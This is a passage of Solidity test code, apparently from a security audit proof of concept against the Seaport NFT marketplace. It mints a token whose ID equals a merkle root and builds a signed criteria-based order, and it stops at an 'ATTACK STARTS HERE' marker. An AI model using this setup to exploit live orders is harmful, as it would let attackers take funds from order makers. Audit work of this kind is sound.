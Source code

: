 ```solidity
        bytes32 leafRight = bytes32(uint256(2));
        bytes32 merkleRoot = hashHashes(leafLeft, leafRight);
        console.logBytes32(merkleRoot);

        Context memory context = Context(
            consideration,
            merkleRoot, /* tokenCriteria */
            1e18, /* paymentAmount */
            address(0), /* zone */
            bytes32(0), /* zoneHash */
            uint256(0) /* salt */
        );
        bytes32 conduitKey = bytes32(0);

        token1.mint(address(alice), context.paymentAmount);
        // @audit assume there's a token where anyone can acquire IDs. smaller IDs are more valuable
        // we acquire the merkle root ID
        test721_1.mint(address(this), uint256(merkleRoot));

        _configureERC20OfferItem(
            // start, end
            context.paymentAmount, context.paymentAmount
        );
        _configureConsiderationItem(
            ItemType.ERC721_WITH_CRITERIA,
            address(test721_1),
            // @audit set merkle root for NFTs we want to accept
            uint256(context.tokenCriteria), /* identifierOrCriteria */
            1,
            1,
            alice
        );

        OrderParameters memory orderParameters = OrderParameters(
            address(alice),
            context.zone,
            offerItems,
            considerationItems,
            OrderType.FULL_OPEN,
            block.timestamp,
            block.timestamp + 1000,
            context.zoneHash,
            context.salt,
            conduitKey,
            considerationItems.length
        );

        OrderComponents memory orderComponents = getOrderComponents(
            orderParameters,
            context.consideration.getNonce(alice)
        );
        bytes32 orderHash = context.consideration.getOrderHash(orderComponents);
        bytes memory signature = signOrder(
            context.consideration,
            alicePk,
            orderHash
        );

        delete offerItems;
        delete considerationItems;

        /*************** ATTACK STARTS HERE ***************/
```